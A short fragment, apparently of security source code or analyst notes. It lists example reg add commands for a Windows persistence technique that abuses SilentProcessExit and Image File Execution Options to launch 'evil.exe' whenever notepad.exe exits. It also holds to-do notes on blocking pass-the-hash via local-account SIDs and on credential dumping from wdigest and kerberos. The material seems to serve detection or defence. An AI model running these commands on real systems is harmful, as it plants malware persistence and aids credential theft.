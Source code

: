 **Example Commands**:
- `reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512`
- `reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1`
- `reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\evil.exe"`
            """
        }
    ]


- [ ] T-code - pass the hash - is local account

      block these for pass the has
      S-1-5-113: NT AUTHORITY\Local account
      S-1-5-114: NT AUTHORITY\Local account in Administrators group

      pass the pass (word) - wdigest, live, tspkg, kerberos - SeDebugPrivilege or SYSTEM priviledges
